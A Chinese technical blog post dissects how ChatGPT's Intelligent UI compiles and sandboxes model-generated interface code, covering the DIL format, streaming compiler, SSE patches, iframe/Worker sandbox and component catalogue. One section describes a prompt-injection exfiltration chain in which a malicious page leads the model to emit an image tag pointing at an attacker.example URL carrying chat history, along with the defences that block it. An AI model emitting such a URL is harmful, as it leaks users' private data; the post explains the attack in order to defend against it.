


2026 年 10 月初，OpenAI 随 GPT-6（付费层 GPT-6 Sol、免费层 GPT-6 Luna）全量上线了 **Intelligent UI**。在此之前，大模型的对话界面长期停留在“一段 Markdown 文本走天下”的形态；而在 Intelligent UI 上线后，ChatGPT 的单次回答里可以直接内嵌并排对比卡片、可交互图解、实时计费测算器、动态图表甚至小型工具——更重要的是，当你在回答里拖动滑块或切换筛选项时，界面数字会毫秒级实时重算，全程不需要再次请求大模型，视觉风格也与 ChatGPT 原生界面完全一致，没有任何“网页套网页”的割裂感。

最近花时间系统调研了一下这套能力的底层实现机制。结合 [OpenAI 官方发布说明](https://openai.com/index/gpt-6-for-everyone/)、[帮助中心文档](https://help.openai.com/zh-hans-cn/articles/20001598-intelligent-ui-in-chatgpt)，以及社区针对网页端网络流量和前端运行时代码的逆向工程（特别是 [OpenUI / Thesys 工程团队的拆解报告](https://www.openui.com/blog/how-chatgpt-intelligent-ui-works) 与 [Disdjj 的完整会话抓包实证](https://github.com/Disdjj/intelligent-ui-demo)），整套系统的黑盒已经基本被拼齐了。

这篇笔记把这次调研的核心结论按全链路过一遍：模型到底吐出了什么格式？半成品流式代码怎么做到不崩？浏览器怎么安全执行不可信的模型逻辑？它和 Google 的 A2UI、Claude Artifacts 等方案在本质上有什么取舍差异？

---

## 一、核心结论：它不是“特殊插件模式”，而是新的默认渲染底座

在看具体代码之前，先摆几个最关键的调研结论：

1. **Intelligent UI 不是按需触发的 Tool Calling 模式，而是默认回答管线**。抓包证据显示，哪怕模型只回复一句没有任何控件的普通说明文字，服务端依然会把它编译成一段 232 字节、只渲染单个 `text` 节点的程序塞进 `message.metadata.model_dil_v2.code`。在这套架构里，传统的纯文本 Markdown 只是生成式 UI 最退化的一种特例。
2. **模型不直接吐 HTML，而是写一门内部代号为 DIL 的混合 DSL**（产品与数据侧命名空间为 `opGenui` / `GenUI`）。它把普通 Markdown 散文、`{@body ...}` JavaScript 状态逻辑、受控的 JSX 风格组件标签以及类 Svelte 的模板控制流拼在了一起。
3. **重编译放在服务端，协调器跑在客户端双层沙箱里**。客户端从不直接解析模型源码；服务端每收到一段新流式分片就对累计源码做一次**从头全量重编译**，产出纯 JS 函数与 JSON 字符串常量表，通过 SSE 的 JSON-Patch 补丁流下发。客户端在“跨域断网 `iframe` + 无 DOM `Web Worker`”双层笼子里运行一套自研的轻量 React 协调器（Reconciler），算出差异指令后再交由宿主页面映射成 ChatGPT 自家的原生组件。
4. **“声明式目录为主 + `<AppBlock>` 逃生舱兜底”的双轨制**。95% 的日常回答走受控组件目录；一旦遇到原生组件库无法覆盖的场景（例如需要调用 Web Audio API 发声的鼓机或 Canvas 小游戏），模型会退入 `<AppBlock>` 逃生舱，输出完整的自包含 HTML/CSS/JS，并在独立沙箱域名的可见 `iframe` 中渲染。

整条链路的端到端分工可以用下面这张图概括：



下面顺着数据流向，逐层拆开来看细节。

---

## 二、第一层：模型推理格式 DIL —— 为什么要专门造一门“三合一”方言？

先看模型在推理阶段真正往外吐的字符流。以一个“团队订阅套餐测算器”的最小样例来看，写入 `message.content.parts[0]` 的原始输出长这样：

```tsx
## Team plan estimate

Drag the slider to see the **monthly price** for your team.

{@body const [seats, setSeats] = DIL.useState(8)}
{@body const price = seats * 29}
<box border padding={3} gap={2}>
  <slider min={1} max={50} value={seats} onChange={setSeats}/>
  <title size="xl">${price}/mo</title>
</box>
```

稍微写过前端的人一眼就能看出它的拼装逻辑：

- **正文叙述直接用 Markdown**：标题 `##`、段落、`**加粗**` 原样书写，模型最熟练，Token 开销也最低。
- **状态与派生逻辑用 `{@body ...}` 声明**：每条顶层 JavaScript 语句独占一行。`DIL.useState(8)` 等同于 React 的 `useState`，后面可以紧跟任意派生公式（如 `price = seats * 29`）或事件处理函数。
- **布局与控件用受控的 JSX 风格标签 + 类 Svelte 控制流**：标签名来自 ChatGPT 预设的组件目录（`<box>`、`<row>`、`<grid>`、`<slider>`、`<segmented-control>`、`<table>`、`<chart>` 等）；条件与循环则采用 `{#if expr} ... {:else} ... {/if}` 和 `{#each list as item, i} ... {/each}`，刻意避开了原生 JSX 里极易在流式生成时写漏括号的嵌套三元表达式与 `.map()` 闭包。

### 为什么不让模型直接吐 HTML 或标准 React 组件？

这是调研中最值得琢磨的一个架构决策。直接让模型输出 HTML + Tailwind 塞进 `iframe`（即 Claude Artifacts 的思路）工程成本低得多，但作为**每一轮对话的默认底座**，直出 HTML 有四个致命短板，而 DIL 恰好逐一化解：

1. **流式半成品的可截断性（Streaming Cut-ability）**：模型是一个 Token 一个 Token 往外蹦的，生成过程中 99% 的时刻代码都是语法残缺的。DIL 要求 `{@body}` 语句单行独立、标签层级扁平清晰，服务端编译器随时可以在“最后一个完整语法结构”处一刀切断，自动闭合外层开放容器，做到文字逐词流式蹦出、组件一旦闭合立刻上屏。
2. **无需执行的静态可分析性**：因为 DSL 结构受控，服务端不需要跑 JS 就能在流式的任意中间态静态提取出：哪些是静态文案（抽入常量表）、声明了哪些状态变量名（自动转成持久化语义键）、引用了哪些外部宿主组件（写入 `requiredComponents`），以及某个复杂组件在源码中的起止字符偏移（写入 `genui_components`）。
3. **设计系统在类型层面不可绕过**：DIL 不开放任意 DOM 标签与自由内联样式，而是强制使用语义化 Design Tokens（例如基于 `4px` 的间距刻度：`padding={3}` 对应 `12px`，`gap={2}` 对应 `8px`，圆角与背景使用 `radius="2xl"`、`background="surface-secondary"`）。模型从语法上就画不出一个脱离 ChatGPT 视觉规范的界面，同时天然适配 Web 与移动端（React Native / Hermes）。
4. **免费产出降级版本（`fallbackMarkdown`）**：同一份语法树在编译 JS 的同时，还能顺手产出一份纯文本 Markdown 摘要，供旧版本客户端、无 JS 环境或搜索索引兜底。

在模型训练侧，OpenAI 同步扩展了后训练与评测管线，从**清晰度（Clarity）、实用性（Usefulness）、完整性（Completeness）**三个维度评估生成界面，重点训练了 GPT-6 的“设计判断力”——什么时候该给并排对比、什么时候给交互控件、**什么时候给一段纯文字就够了**；再配合 GPT-6 的 **Interleaved Thinking（交错思考与作答）**，模型可以在后台继续推理和调工具的同时，先把阶段性界面流式推给用户（官方实测联网搜索问题的首字响应时间比 GPT-5.6 Instant 平均提前了 44%）。

---

## 三、第二层：服务端流式编译器 —— 把“半成品与写错”当作常态输入

客户端永远不会接触原始 DIL 解析逻辑。服务端在流式生成期间，每隔约 `230ms–290ms`（基本跟随模型推理 chunk 节奏），就会把**截至当前已生成的全部 DIL 文本从头完整重编译一遍**。

在 Disdjj 抓取的一次复杂三页签计费控制台案例中（源码 23,422 字符），服务端一共执行了 **134 次全量重编译**，编译产物 `model_dil_v2.code` 从最初的 446 字节一路整体替换增长到 30,932 字节。之所以放弃增量编译而选择暴力全量重编译，原因很务实：中间态源码充满未闭合语法，维护增量 AST 合并的复杂度和出 Bug 概率极高，而几十 KB 文本从头编译一次仅需几毫秒，用微小的算力与带宽开销换取了绝对的状态自洽。

前面那段套餐计算器经服务端编译后，落地到 `message.metadata.model_dil_v2` 中的真实 JS 与 JSON 结构如下：

```javascript
function __dilSafe(evaluate, failureValue) {
  try { return evaluate(); } catch { return failureValue; }
}

DIL.render(__dil.jsx(() => {
  const __dilConstants = DIL.useConstants();
  const __dilModelDataBindings = DIL.useAppData((appData) => appData.opGenui?.modelDataBindings ?? {});
  const [seats, setSeats] = DIL.useState(8, { key: "seats" });
  const price = __dilSafe(() => seats * 29, undefined);
  return __dil.jsx(__dil.Fragment, null,
    __dil.jsx("title", { size: "lg" }, __dilConstants["0"]),
    __dil.jsx("text", null, __dilConstants["1"], __dil.jsx("bold", null, __dilConstants["2"]), __dilConstants["3"]),
    __dil.jsx("box", { border: true, padding: 3, gap: 2 },
      __dilSafe(() => __dil.jsx("slider", { min: 1, max: 50, value: seats, onChange: setSeats }), null),
      __dil.jsx("title", { size: "xl" }, __dilConstants["4"], __dilSafe(() => price, null), __dilConstants["5"])));
}, { key: "body:2" }));
```

```json
{
  "constants": {
    "0": "Team plan estimate",
    "1": "Drag the slider to see the ",
    "2": "monthly price",
    "3": " for your team.",
    "4": "$",
    "5": "/mo"
  },
  "appData": {
    "opGenui": {
      "componentResults": {},
      "modelDataBindings": {}
    }
  }
}
```

仔细阅读这段编译产物，可以提炼出编译器干的**五件核心脏活**：

| 编译变换动作 | 具体做法 | 解决的工程痛点 |
| :--- | :--- | :--- |
| **1. 统一树降级（Lowering）** | Markdown 与标签统一转译为 `__dil.jsx(...)` 调用，`{#if}` 转为三元表达式，`{#each}` 转为 `.map()` | 客户端只需极简 JS 运行时，彻底省去前端解析器体积与多端实现成本 |
| **2. 异常隔离罩（`__dilSafe`）** | 对每个动态表达式、`{#if}` 条件（兜底 `false`）及带表达式的节点单独套一层 `try/catch` | 模型写出 `undefined.foo` 等运行时异常时，只隐藏单个局部节点，绝不整屏白屏 |
| **3. 常量表抽离（`constants`）** | 所有静态文本移入独立 JSON 表，代码内仅留 `__dilConstants["0"]` 索引 | 纯正文流式增长时代码结构不变，无需重传整份 JS 程序，仅追加常量字典即可 |
| **4. 语义键注入（Semantic Keys）** | 编译器静态提取左值变量名，将 `useState(8)` 改写为 `useState(8, { key: "seats" })` | 界面在后台经历上百次全量重编译替换时，用户已拖动的滑块值依靠稳定 `key` 不丢失 |
| **5. 恢复式解析与 Schema 校验** | 维护未闭合构造栈，丢弃半截语句、自动闭合非空开放标签、剔除非白名单属性 | 把“模型写到一半或写错属性”当正常输入处理，保证每一帧都能编出合法可执行的 JS |

第五点尤其体现了工程量：在前述抓包样本里，服务端下发的 `recoveryDiagnostics`（容错恢复诊断补丁，如 `unclosed_block`、`unterminated_tag`、`unterminated_braced_value`）多达 **338 条**，是代码重编译次数的两倍多；同时如果模型给组件传了目录 Schema 里不存在的属性（例如给 `icon` 写 `fill` 触发 `unknown_prop`，给 `box` 写字符串 `gap="1"` 触发 `invalid_literal`），编译器会直接静默剥离并记入诊断，防止脏数据流入前端。对于图表等复杂控件，服务端还会自动注入类似 `DilChartContentPropShim` 的兼容校验层。

---

## 四、第三层：SSE 补丁流与旁路数据绑定 —— 防幻觉，更防隐私外带

### 1. 基于 JSON-Patch 的多路复用 SSE 流

流式传输不再是简单地拼接字符串，而是通过 `POST /backend-api/f/conversation`（前置通过 `/prepare` 拿 `conduit_token` 指派流式网关，支持 `/resume` 按事件 `offset` 断线续传）推送 `event: delta` 事件。每个事件是一组类 RFC 6902 的 JSON-Patch 操作，同时修改消息结构体的不同分支：

- `/message/content/parts/0`：`append` 追加模型原始输出的 DIL 源码；
- `/message/metadata/model_dil_v2/code`：`replace` 整体替换最新编译出的 JS 代码；
- `/message/metadata/model_dil_v2/constants`：`append` 更新文本常量池；
- `/message/metadata/genui_components`：实时更新复杂组件在源码中的字符跨度 `[start_index, end_index]`，前端借此判断某个图表何时写完闭合、何时切入渲染动画。

根据 OpenUI 对一条 6,341 字符、耗时 18.7 秒、共 84 次 SSE 推送的回答统计：其中 52 次属于 UI 结构变化（重发全量编译代码，占约 275 KB 总补丁流量的 83%），14 次属于纯文本增长（仅更新 `constants`，代码不动），10 次处于未闭合标签内部（仅追加原始文本，UI 不动），其余为建消息、图片异步回填和收尾标记。

### 2. 服务端旁路数据注入（Grounded Data）

当回答涉及商品价格、店铺地址或网页配图时，如果让模型把搜索工具返回的值重新“手抄”一遍写进 UI，不仅有抄错价格的幻觉风险，更会打开一条经典的 **Prompt Injection 数据外带（Exfiltration）攻击链**——恶意网页提示词可以诱导模型拼接出 `<AsyncImage src="https://attacker.example/steal?chat_history=..." />`，一旦客户端浏览器发起图片请求，用户隐私就会瞬间泄露。

Intelligent UI 在 `appData.opGenui` 里设计了两条旁路机制来根治这个问题：

1. **服务端异步解析组件（`componentResults`）**：需要展示配图时，模型不写 URL，只写描述性查询词：

```tsx
<AsyncImage query="slow roasted rosemary garlic lamb shoulder in baking tray" aspectRatio="5:4" maxWidth="152px"/>
```

一旦该标签闭合，OpenAI 后端立即异步发起图片检索、校验安全策略并代理图片地址（`images.openai.com`），约 1–2 秒后通过一条 SSE 补丁把真实 URL 注入 `appData.opGenui.componentResults[resolutionId]`，前端组件随即从骨架屏切换为真实图片。`AsyncImageGroup`、`Entity`（商户/地点气泡）和 `Cite` 均采用同类机制。

2. **工具结果引用绑定（`modelDataBindings`）**：联网搜索等工具返回结构化记录后会分配唯一 ID（如 `turn448791product0`）。模型在 DIL 中只写字段引用 `{turn448791product0.displayed_price}`，真实的价格字符串由服务端直接填进 `modelDataBindings` 下发。更有意思的是社区开发者在对接 MCP 插件时发现的硬性安全规则：如果强行给 `AsyncImage` 传入字面量 `src="https://..."`（哪怕是完全公开的维基百科图片地址），只要该字符串没有精确出现在服务端下发的 `modelDataBindings` 白名单中，编译器和运行时就会直接以 `invalid_literal` 将其丢弃，浏览器连一个字节的请求都不会发出。

---

## 五、第四层：客户端双层零信任沙箱与迷你 React 协调器

既然编译产物是一段包含状态、循环和算术表达式的 JavaScript 代码，它就绝不能直接跑在 `chatgpt.com` 主页面里。OpenAI 在客户端（`cdn.platform.openai.com/assets/dil/runner-*.js`，当前协议版本 `protocolVersion: 14`，体积约 184 KB）搭了一套堪称教科书级的**“跨域不透明源 `iframe` + 无 DOM `Web Worker`”双层互补沙箱**。

### 1. 为什么要套两层笼子？

外层是一个隐藏的跨域空白页 `https://cdn.platform.openai.com/deployments/dil/v14/runner.html`，内层是由该页面通过 `new Worker(blobUrl)` 拉起的工作线程：

- **外层 `iframe` 负责彻底掐断网络与存储 IO**：网络抓包显示其请求头为 `Origin: null`，说明未开启 `allow-same-origin`，运行在完全隔离的不透明源（Opaque Origin）中，既碰不到宿主页 DOM，也读不到任何 `cookie` 与 `localStorage`。同时其 HTML 头部写死了极严苛的 CSP 策略：

```html
<meta http-equiv="Content-Security-Policy" content="
  default-src 'none';
  script-src 'sha256-5OnC/c0sEfhMMvQuXMcrgJR+ftu16IOuoBLhR1w0rLA='
             'self'
             https://cdn.platform.openai.com/assets/dil/
             'unsafe-eval';
  base-uri 'none'; form-action 'none'; frame-src 'none'; object-src 'none';
  worker-src blob: data:" />
```

注意这里的组合拳：它**显式放开了 `'unsafe-eval'`**（因为核心诉求就是动态求值服务端编译过来的 JS 字符串），但用 `default-src 'none'` 且不配任何 `connect-src` / `img-src`，从浏览器内核层封死了 `fetch`、`XHR`、`WebSocket`、图片及字体加载——即**“允许你算，但算的屋子里没有任何一扇对外窗户”**。

- **内层 `Web Worker` 负责剥夺 DOM 与线程级防卡死**：光靠 `iframe` 还不够，因为 `iframe` 里有 DOM，恶意代码仍可能在局部画一个高仿登录框钓鱼，或者写死循环拖慢渲染。把真正执行模型代码的 `unsafe_runner` 放进 Worker 后：① Worker 天然没有 `document` 和 `window`；② Worker 第一行代码立即执行 `URL.revokeObjectURL(self.location.href)` 自毁句柄，接着运行 `lockDownSandboxGlobal` 抹掉定时器与通信接口、用 `freezeObjectGraph` 递归冻结内置对象，并重写 `DILSandboxRegExp` 封堵原型链 `constructor` 逃逸；③ 配合主控侧 4000ms 启动预算与 500ms `healthCheck` 看门狗探测，一旦超时不响应立即移入 `quarantine` 隔离并重启 Worker。

值得一提的是，逆向分析发现沙箱白名单专门兼容了 **Hermes**（React Native 使用的 JS 引擎）全局对象，且内部保留了 `Symbol("openai.valdi.dil.runtimeElement")` 等跨端标识，印证了移动端 App 很可能复用了同一套沙箱运行时与二进制指令协议，仅在最末端对接 iOS/Android 原生视图渲染器。

### 2. 自研轻量 React 协调器与“函数不出沙箱”

沙箱里的运行时不画任何像素，它本质上是一个重写的迷你版 React Reconciler（包含 `DILElement`、`DILRenderer`、`DILHookRuntime`、`DILStatePersistence` 等模块）。每次运行编译函数产出新虚拟树后，它与上一棵树做 Diff，把差异编码成**二进制整数指令序列**（字符串单独存表）通过 `MessagePort` 发回宿主页。解码后的指令语义如下：

```text
CREATE #8  box     SET border = true, padding = 3, gap = 2            PLACE under root at 2
CREATE #9  slider  SET min = 1, max = 50, value = 8, onChange = fn#1  PLACE under #8 at 0
CREATE #10 title   SET size = "xl"                                    PLACE under #8 at 1
CREATE #11 text    "$"                                                PLACE under #10 at 0
CREATE #12 text    "232"                                              PLACE under #10 at 1
CREATE #13 text    "/mo"                                              PLACE under #10 at 2
```

这里最精巧的设计是**双向回调桩（Callback Stubs）**：

- **向外出沙箱**：滑块的 `onChange={setSeats}` 函数体永远留在 Worker 里，发给宿主页的只是一个句柄编号 `fn#1`。
- **向内进沙箱**：宿主提供的组件与 `GenUI` 外部动作同样无法直接序列化进 Worker，而是编码成 `{ __oaiDilGlobalFunction: "<id>" }` 占位符传入，在 Worker 内还原为代理函数；调用时通过 `invokeGlobal` 消息回传宿主页校验并执行。

当用户在页面上拖动滑块，与点击按钮发起追问时，两条交互路径的序列对比非常清晰：



---

## 六、第五层：宿主三级组件库、状态回环与 `<AppBlock>` 逃生舱

### 1. 收编全站积木的三级组件目录

宿主页收到操作指令后，只允许实例化白名单里注册过的组件（挂载时打上 `data-d-component="box|slider|..."` 或 `data-w-component="chart"` 属性，图表底层基于 `recharts`）。从客户端代码中提取出的组件目录分为三层：

- **内建基础原语（约 70 个注册，高频出现约 30–40 个）**：涵盖排版（`title`、`text`、`caption`、`bold`）、容器布局（`box`、`row`、`grid`、`grid-item`、`card`、`divider`、`table`）及表单控件（`button`、`slider`、`input`、`select`、`checkbox`、`radio-group`、`segmented-control`、`badge`、`icon`）。
- **常驻宿主组件（30 个 Eager 组件）**：随运行时首包就绪，包括 `AsyncImage`、`AsyncVideo`、`Cite`、`CodeBlock`、`Entity`、`FlightCard`、`ProductCard`、`MemoryCite`、`FollowUp`、`WritingBlock` 以及支持语音播报的 `SpeechSynthesizer`。
- **按需懒加载垂类卡片（283 个 Lazy Widgets）**：OpenAI 把过去两年给搜索、金融、体育、教育做的所有垂类小卡片全部收编进了这套宿主库（如 `StockQuoteWidget`、`NbaGameBoxscoreWidget`、`WeatherWidgetV3`、`LearningQuiz` 乃至约 50 个临床医学评分计算器），通过 `__resolutionId` 间接表按需动态加载，既防止首包膨胀，又让模型写的标签名与前端具体实现彻底解耦。

对于必须跳出当前气泡的交互，运行时门面仅收敛开放了 **5 个严格校验参数类型与纯对象原型的动作**：`GenUI.issueNewTurn(query)`、`GenUI.copy(text)`、`GenUI.openUrl(url)`、`GenUI.openEntityDetail(ref)`，以及走服务端代理执行的 `GenUI.runPluginTool({ tool, arguments })`。

### 2. 状态回传协议与现阶段的粗糙边界

为了让生成出来的界面拥有跨轮次记忆，沙箱内的 `DILStateSnapshotCodec` 会对所有带语义键的状态做严苛序列化校验（总大小不超过 `8 KB`、嵌套深度不超过 `8` 层、根作用域最多 `128` 个键，拒绝循环引用、`NaN`、稀疏数组及非纯对象原型），然后由客户端上报至：

```http
POST /backend-api/conversation/{cid}/message/{mid}/dil/view_state
```

并在下一轮对话提交的请求体中预留了 `genui_state_snapshots` 数组字段用于把状态回灌给模型。

不过从 2026 年 10 月至 11 月的实际观测来看，这套状态闭环在产品侧还没有完全打磨到位，存在几处明显的粗糙边缘：

- **状态持久化的覆盖不一**：除核对清单（Checklist）等少数组件外，多数即时生成的滑块计算器在刷新网页后仍会回到初始默认值；
- **隐式状态对模型尚不透明**：如果用户只拖了滑块、没有点调用 `GenUI.issueNewTurn` 的按钮，而是直接在底部主输入框打字问“按我刚调的数字算一下年费”，模型有时拿不到滑块改动后的状态；
- **追问总是整块重建**：后续追问会生成一段全新的 DIL 程序，不会原地增量修改上一轮已经渲染出来的旧界面；
- **业务逻辑错误静默无感知**：`__dilSafe` 能拦住代码崩溃，但拦不住模型写错算术公式（OpenUI 实测中曾遇到切换图表指标后，总营收从 `$6,930` 静默跳变到 `$256,410` 的公式 Bug）。

### 3. `<AppBlock>` 逃生舱：受控目录之外的自包含微应用

当遇到原生目录确实无能为力的开放式需求（比如合成器、物理模拟或互动小游戏），模型会在回答中输出 `<AppBlock>` 块：

```html
<AppBlock title="Drum Lab" icon="app-chatgpt" variant="inline" app_block_id="drum-lab-01">
  <div id="dl">
    <style>
      #dl { color: var(--viz-text); }
      #dl .panel { background: var(--viz-panel); border: 1px solid var(--viz-border); }
    </style>
    <button id="dl-play">Play</button>
  </div>
  <script>
    (function () {
      const C = window.AudioContext || window.webkitAudioContext;
      // 自包含 Web Audio 合成逻辑...
    })();
  </script>
</AppBlock>
```

编译器遇到 `<AppBlock>` 时不做 DIL 转译，只留一个 `__chatgptClientDefinedWidget` 占位符；前端从原始文本提取源码，挂载到独立域名 `https://codex-inline-visualization-<hash>.web-sandbox.oaiusercontent.com/?app=skybridge...` 的双层可见 `iframe` 中。为了消除 `iframe` 常见的“外来网页突兀感”，Skybridge 宿主做了三件事：注入与主站一致的 Tailwind 基础排版重置、注入跟随主站明暗模式切换的 `--viz-*` 主题颜色变量，以及自动撑开同步容器高度避免内部滚动条。

---

## 七、横向对比与架构启示：在生成式 UI 光谱中怎么选型？

把 ChatGPT Intelligent UI 放回当前整个行业的 Generative UI 坐标系里，再对比 Google 主导的开源声明式规范 **A2UI（v0.9）**、以 Claude Artifacts 为代表的**开放式 HTML 沙箱**，以及 **MCP Apps SDK（`ui://` 预构建资源）**，四条技术路线的边界就非常清楚了（至于社区常提的 **AG-UI**，它定位在前后端流式事件与 `STATE_DELTA` 传输协议层，相当于 ChatGPT 内部那套 SSE JSON-Patch 通道的开源标准版，可用来承载 A2UI 等不同载荷）：

| 评估维度 | ChatGPT Intelligent UI (`DIL`) | Google `A2UI` (纯数据清单) | 开放式沙箱 (`Artifacts` / `AppBlock`) | MCP Apps SDK (`ui://` 模板) |
| :--- | :--- | :--- | :--- | :--- |
| **模型生成内容** | Markdown + `{@body}` JS + 受控 JSX 标签 | 平铺的 JSON 组件树 + 数据绑定路径 | 完整的 HTML + CSS + 任意 JS | 仅输出工具调用参数与结构化 JSON |
| **本地交互计算能力** | **极强**：Worker 本地跑任意派生公式，0 模型往返 | **弱**：仅内置格式化/校验，重算需发回服务端/模型 | **无限**：可调 WebAudio / Canvas / WebGL | **强**：但仅限开发者预先打包好的固定逻辑 |
| **设计一致性与跨端** | 原生设计系统无缝统一，兼容移动端 Hermes | 极佳，同一份 JSON 可映射 Web / Flutter 原生控件 | 易产生视觉割裂，强依赖宿主样式变量注入 | 取决于各第三方插件开发者自行实现的样式 |
| **流式渐进体验** | 文字逐词上屏，组件闭合即挂载且重编译不丢状态 | 平铺节点按 ID 逐个增量上屏 | 流式期易闪烁，通常需等脚本写完才能交互 | 需等待工具返回数据后一次性挂载模板 `iframe` |
| **工程与安全门槛** | **极高**：需自研容错流式编译器 + 双层断网无 DOM 沙箱 | **极低**：无任何可执行代码（Secure by Design） | **中**：依赖独立沙箱域名与 `iframe` 隔离 | **中**：静态资源审核 + 域名级 CSP 白名单 |

### 对我们做 AI 应用工程的几点启发

做完这轮拆解，最深的感受是：**让大模型把 UI 真正可靠地“流”出来，拼到最后全是扎实的前端编译与运行时基建**。如果团队内部也在探索生成式界面，有几条非常实际的经验可以直接借鉴：

1. **先分清场景需不需要“模型现写计算公式”**：如果你的业务场景主要是表单确认、数据卡片展示、审批流，且需要同时跑在 Web 和原生 App 上，走 **A2UI 这类纯 JSON 清单 + AG-UI 传输** 性价比最高，天然没有代码执行安全包袱；只有当核心体验强依赖计算器、动态模拟器、即时筛选仪表盘这类“本地零延迟重算”能力时，才值得投入做类 DIL 的受控代码执行管线。
2. **一旦运行模型生成的代码，“异常局部化”和“流式容错”必须前置进编译器**：不能指望通用大模型每次都输出零语法错误的完整代码。像 `__dilSafe` 那样在编译期给每个动态表达式自动套上兜底保护罩，以及用稳定语义键（`key`）锚定 `useState` 槽位，是防止流式刷新白屏和丢状态性价比最高的两招。
3. **安全隔离不能只靠删全局变量，还要防“合法组件的数据外带”**：双层沙箱（CSP `default-src 'none'` 断网不透明源 `iframe` + 无 DOM `Worker` 看门狗）解决了代码执行隔离；而 `AsyncImage` 拒绝未绑定字面量 `src` 的设计则提醒我们，哪怕是受控白名单组件，只要能触发外部网络请求，就必须校验 URL 来源是否属于服务端受信任的数据绑定。

---

## 参考资料

1. OpenAI, [GPT-6 and Intelligent UI for everyone](https://openai.com/index/gpt-6-for-everyone/) (2026-10)
2. OpenAI Help Center, [Intelligent UI in ChatGPT / ChatGPT 中的智能界面](https://help.openai.com/zh-hans-cn/articles/20001598-intelligent-ui-in-chatgpt) (2026-10)
3. Thesys Engineering Team (OpenUI), [How ChatGPT's Intelligent UI works and how to build it](https://www.openui.com/blog/how-chatgpt-intelligent-ui-works) (2026-10)
4. Disdjj, [ChatGPT「Intelligent UI」实现分析与抓包复刻 (intelligent-ui-demo)](https://github.com/Disdjj/intelligent-ui-demo) (2026-10)
5. OpenAI Developer Community, [Intelligent UI drops image URLs returned by an MCP app tool (AsyncImage "invalid_literal")](https://community.openai.com/t/intelligent-ui-drops-image-urls-returned-by-an-mcp-app-tool-asyncimage-invalid-literal/1405246) (2026-10)
